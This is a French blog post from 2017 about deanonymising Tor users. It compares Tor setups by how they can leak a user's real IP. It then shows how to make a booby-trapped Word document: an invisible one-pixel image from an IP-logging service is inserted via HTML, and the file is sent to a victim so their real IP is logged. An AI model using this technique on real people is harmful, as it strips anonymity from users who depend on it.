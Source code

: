 ```yaml
---
title: "Les Questions Cons du Hacking : Comment désanonymiser un utilisateur de Tor ?"
tags: [Réseau, Tor, Vie privée et anonymat]
---
```


S01E05 : Comment désanonymiser un utilisateur de Tor ?
------------------------------------------------------

Par désanonymiser un utilisateur de Tor, j'entends ici être en mesure de récupérer sa véritable adresse IP.  

### Est-ce faisable ? Bien-sûr ! Mais dans quelles mesures ?

Dernièrement on parle rarement de la désanonymisation d'un utilisateur de Tor seul et plus souvent de celle des hidden-services qui est, par mon expérience personnelle et par les cas de saisies qui ont fait les gros titres, pas toujours plus compliquée.  

Dans la plupart des cas l'attaque se concentre sur l'erreur humaine et le manque de maîtrise de Tor et des réseaux de la victime (que l'on parle d'utilisation ou d'administrateur de `.onion`).  

Il va de soi que ce degré de maîtrise devrait être à la mesure des dangers encourus par l'utilisateur de Tor et des compétences (et moyens techniques et financiers) de ses ennemis.  

On a vu que ce n'était pas le cas avec *Ross William Ulbricht* (créateur du premier *SilkRoad*) qui a lancé son hidden-service en ayant de très faibles connaissances en informatiques... Les autorités n'étaient sans doute pas aussi informées qu'elles le sont maintenant sur le sujet, ce qui peut expliquer la longévité du site.  

On a aussi vu plus récemment le forum *Deutschland im Deep web*, dont l'administrateur semblait bien plus compétent, saisit par le *BKA*, ce qui prouve à quel point la désanonymisation est possible et que la sécurisation des hidden-services et peut être plus difficile que cela peut sembler.  

Mais ici on se concentrera sur les utilisateurs seuls uniquement et non les hidden-services.  

### Configurations courantes des utilisateurs de Tor

D'abord on peut commencer par distinguer quatre différents types d'utilisation de Tor :  

* Un service Tor local lancé sur la machine avec un navigateur (pas forcément *Firefox*) configuré pour passer via Tor soit directement soit via un proxy HTTP redirigeant via Tor (*Polipo*, *Privoxy*).
* Une installation de *TorBrowser*
* Un Firefox dans une VM *Tails*
* Un Firefox dans une VM *Whonix*

**Le premier cas de configuration** est sans doute le plus vulnérable puisque toutes les vérifications sur les fuites de données sont à la charge de l'utilisateur qui devra prendre soin de désactiver les plugins dangereux (Flash, Java, etc), déterminer si le navigateur doit utiliser tel ou tel service intégré (safe browsing, etc) et éplucher la configuration avancée à la recherche de la petite bête.  

Toute erreur laissée pourrait alors être exploitée par un outil de decloaking comme celui mis en place par le projet *Metasploit* à une époque. Il existe de nombreux documents sur le sujet.  

Il y a aussi de grandes chances qu'il soit possible d'extraire un identifiant unique de la configuration de navigateur (fingerprinting), laissant la possibilité aux sites de reconnaître l'utilisateur quand bien même il utilise Tor et que le navigateur efface ses cookies à chaque arrêt.  

Toute action effectuée en dehors du navigateur peut amener l'utilisateur à révéler sa véritable adresse IP.  

L'erreur humaine peut aussi amener l'utilisateur à se dévoiler lui-même (changement temporaire de la configuration proxy du navigateur puis oubli de la remettre en place plus tard ou encore cookies non supprimés entre une session avec et une session sans Tor).  

**Dans le cas du *TorBrowser*** on dispose d'un navigateur Firefox qui a été modifié à sa base afin de restreindre le plus de fuites possibles et de cloisonner le comportement des pages web (empêcher l'ouverture de liens non-http) et du code javascript. Le navigateur a aussi été configuré de telle façon que le fingerprinting ne soit pas unique (mentir sur la taille de l'écran, le système d'exploitation utilisé ,etc). En contrepartie pour un site en clear ça doit rendre aisé la tache de déterminer si le navigateur est le TorBrowser ou non.  

Il est encore possible de jouer un peu avec la configuration du navigateur, mais on est soit vite dissuadé, soit ça ne fonctionne pas comme escompté (extensions qui ne semblent pas fonctionner).  

Là encore, toute action sortie du TorBrowser (comme ouvrir un fichier tout juste téléchargé) peut amener à la désanonymisation de l'utilisateur.  

L'exploitation d'une faille de sécurité touchant le navigateur ou un composant du système d'exploitation (rendu des images ou des polices de caractères par exemple) peut aussi amener à la compromission du système.  

***Tails*** propose déjà un niveau de sécurité plus acceptable via une machine virtuelle sur laquelle quelques applications sont préconfigurées pour passer par Tor et où tout le reste du trafic est tout simplement bloqué.  

De cette manière une connexion réseau à l'initiative d'une application préconfigurée réussira tandis que l'exécution d'une application réseau tiers échouera.  

Pour échapper à cet environnement il faudra soit amener l'utilisateur à effectuer une opération en dehors de la VM (peu probable) soit être en mesure de compromettre la VM (accès root) pour tenter d'altérer les règles de filtrage.
Ce type de VM axé sur Tor rend généralement difficile l'utilisation du compte root (mot de passe inconnu et utilisation de sudo impossible) et donc complique l'escalade de privilèges. Il faudra passer des options spécifiques à init pour débloquer cet accès.  

***Whonix*** est une VM tout comme *Tails* mais la différence principale est que *Whonix* redirige les communications de toutes les applications via Tor tant qu'il le peut. On est donc en mesure d'ajouter des applications de notre choix et selon leur mode de fonctionnement (Tor fait transiter du TCP et du DNS) elles passeront automatiquement à travers Tor ou dysfonctionneront (le reste du trafic est bloqué, comme dans *Tails*).  

La compromission totale de la VM devrait aussi pouvoir amener à réécrire les règles de filtrage, mais il est probable qu'en plus de l'accès root rendu difficile d'autres protections viennent endurcir le système (système de fichiers en lecture seule, AppArmor sur le navigateur, etc)  

### Le principe

Je vais présenter ici un cas de désanonymisation qui touche les deux premières configuration. Il faudra ici être en mesure d'inciter l'utilisateur à ouvrir un document Word téléchargé via Tor.  

Cela peut sembler suspect mais pour les personnes qui font du commerce via Tor on peut supposer que c'est assez courant (commandes, factures, etc).  

De plus avec le *TorBrowser*, accéder à Tor ne requiert aucune compétence informatique, on peut dès lors imaginer un client d'un market quelconque envoyer au vendeur une capture d'écran dans un fichier .doc pour se plaindre qu'un produit est défectueux.  

Le principe de l'attaque existe bien et a été dévoilé comme étant déjà exploité par les autorités (qui m'ont donné l'idée de l'article :) :  

> New: obtained the tool European cops likely used to unmask people on dark web. Excel file; connects to remote server <https://t.co/AH8SoDXn6H> [pic.twitter.com/W5vZrKXMbC](https://t.co/W5vZrKXMbC)
> 
> — Joseph Cox (@josephfcox) [25 août 2017](https://twitter.com/josephfcox/status/901030117442560001)

### La technique

[A la technique c'est *Michel*....](https://www.youtube.com/watch?v=7ceNf9qJjgc)  

La création d'un document piégé avec LibreOffice est d'une simplicité enfantine.  

Pour simplifier les choses, nous allons utiliser le service [IP Logger](https://iplogger.org/) via son logger invisible.  

On obtient alors l'URL d'une image d'un pixel sur un pixel capable de loguer les ips (le format de l'URL est du type https://iplogger.com/1GqnN6).  

On écrit alors un fichier HTML dans lequel on rentre simplement une balise IMG appelant l'image  

<img src="https://iplogger.com/1GqnN6" />  

Ensuite on crée un nouveau document *LibreOffice* et on insère le HTML via *Insertion > Document*. L'image est invisible et il faudrait être curieux pour remarquer quelque chose.  

![LibreOffice document insertion](/assets/img/libreoffice_trap/libreoffice_insert_doc.png)

Il ne reste plus qu'à ajouter d'autres éléments au document pour le rendre quelconque aux yeux de la victime et l'enregistrer au format .doc ou .docx (sur le .doc l'URL apparaîtra via un strings ou à l'aide d'un éditeur hexadécimal, le docx a l'avantage d'être compressé).  

On pourrait aussi jouer avec la gestion des avants et arrières plans des éléments dans le document pour dissimuler une image plus grande.  

Enfin on envoie le document piégé à la victime et on surveille les logs depuis iplogger.org.  

![iplogger ip addresses](/assets/img/libreoffice_trap/iplogger.png)

Si vous connaissez une technique similaire pour les PDFs vous pouvez m'en faire part par email.

*Published August 31 2017 at 21:29*
